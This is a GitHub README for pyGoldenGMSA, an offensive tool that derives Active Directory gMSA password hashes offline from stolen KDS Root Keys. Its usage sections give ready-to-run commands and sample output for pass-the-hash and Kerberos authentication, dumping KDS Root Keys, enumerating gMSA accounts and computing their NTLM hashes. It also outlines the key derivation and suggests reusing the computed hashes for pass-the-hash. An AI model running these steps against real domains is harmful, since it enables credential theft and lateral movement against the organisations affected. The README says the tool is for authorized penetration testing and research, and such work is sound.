




# pyGoldenGMSA

A pure Python implementation of the [GoldenGMSA](https://www.semperis.com/blog/golden-gmsa-attack/) attack, allowing **offline computation of Group Managed Service Account (gMSA) passwords** from compromised KDS Root Keys on **any platform** (Linux, macOS, Windows).

The original C# tool relies on Windows' `kdscli.dll` via P/Invoke. This project reimplements the entire cryptographic pipeline in Python — including NIST SP800-108 Counter Mode HMAC KDF and the full L0/L1/L2 key derivation hierarchy — making it usable from Linux-based attack platforms like Exegol or Kali.

## Features

- **gMSA Enumeration** — List all gMSA accounts in a domain with their SID, password ID, and linked KDS Root Key
- **KDS Root Key Dump** — Extract KDS Root Keys with full Base64 blob for offline use
- **Offline Password Computation** — Compute gMSA NTLM hashes from a KDS Root Key without touching the DC again
- **Multiple Authentication Methods** — Password, Pass-the-Hash (PTH), Pass-the-Ticket (PTT), Kerberos
- **Cross-Platform** — Runs on Linux, macOS, and Windows (no `kdscli.dll` dependency)

## Installation

```bash
git clone https://github.com/felixbillieres/pyGoldenGMSA.git
cd pyGoldenGMSA
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

## Usage

### Authentication

```bash
# Password authentication
python3 main.py -u 'user@domain.local' -p 'Password1' -d domain.local --dc-ip 10.0.0.1 <command>

# Pass-the-Hash
python3 main.py -u 'admin' -d domain.local --dc-ip 10.0.0.1 --nt-hash aad3b435b51404ee:31d6cfe0d16ae931 <command>

# Kerberos (ccache)
python3 main.py -u 'admin' -d domain.local --dc-ip 10.0.0.1 --ccache admin.ccache <command>
```

### Enumerate gMSA Accounts

```bash
python3 main.py -u 'user@domain.local' -p 'Pass' -d domain.local --dc-ip 10.0.0.1 gmsainfo
```

```
sAMAccountName:         svc_sql$
objectSid:              S-1-5-21-...-1104
rootKeyGuid:            ce084ce9-df54-2fb4-4031-72b0e32860d7
L0 Index:               363
L1 Index:               23
L2 Index:               28
```



### Dump KDS Root Keys

```bash
python3 main.py -u 'user@domain.local' -p 'Pass' -d domain.local --dc-ip 10.0.0.1 kdsinfo
```



### Compute gMSA Password (Online)

```bash
python3 main.py -u 'user@domain.local' -p 'Pass' -d domain.local --dc-ip 10.0.0.1 \
    compute --sid S-1-5-21-...-1104
```

```
NTLM Hash (NT only):     1c368c74ef1bcbd4892c95a8d6de0f30
NTLM Hash (nxc format):  aad3b435b51404eeaad3b435b51404ee:1c368c74ef1bcbd4892c95a8d6de0f30
```



### Compute gMSA Password (Offline)

Extract the KDS Root Key blob and Password ID from a previous `kdsinfo`/`gmsainfo` run, then compute without network access:

```bash
python3 main.py compute \
    --sid S-1-5-21-...-1104 \
    --kdskey 'AQAAAOlMCM5U37Qv...<base64>...' \
    --pwdid 'AQAAAEtEU0sC...<base64>...'
```


### Verify Computed Hash with Pass-the-Hash

The computed NTLM hash can be verified by using it for authentication:



## How It Works

1. **KDS Root Key** is read from AD (`CN=Master Root Keys,CN=Group Key Distribution Service,CN=Services,CN=Configuration`)
2. **L0 Key** is derived via SP800-108 CTR HMAC KDF from the root key data
3. **L1 Key** is derived from L0 with a security descriptor mixed into the context
4. **L2 Key** is derived from L1 by iterating through the key hierarchy
5. **gMSA Password** (256 bytes) is derived from L2 using the account's SID as context and `"GMSA PASSWORD\0"` as the KDF label
6. **NTLM Hash** = MD4 of the 256-byte password blob

For a deep technical dive, see the accompanying blog post: [pyGoldenGMSA - Reversing Windows DLLs to Compute gMSA Passwords on Linux](https://felixbillieres.github.io/)

## Credits

- **Yuval Gordon** ([@YuG0rd](https://twitter.com/YuG0rd)) — Original [GoldenGMSA research](https://www.semperis.com/blog/golden-gmsa-attack/) at Semperis
- **Semperis** — Original [C# GoldenGMSA tool](https://github.com/Semperis/GoldenGMSA)
- **Jordan Borean** ([@jborean93](https://github.com/jborean93)) — [dpapi-ng](https://github.com/jborean93/dpapi-ng) Python library (reference for KDF implementation)
- **Microsoft** — [MS-GKDI](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gkdi/) protocol specification

## Disclaimer

This tool is provided for **authorized penetration testing** and **security research** only. Unauthorized use against systems you do not own or have explicit permission to test is illegal. The author assumes no liability for misuse.

## License

MIT License - See [LICENSE](LICENSE) for details.

## Author

**Felix Billieres** — [felixbillieres.github.io](https://felixbillieres.github.io/) | [GitHub](https://github.com/felixbillieres)
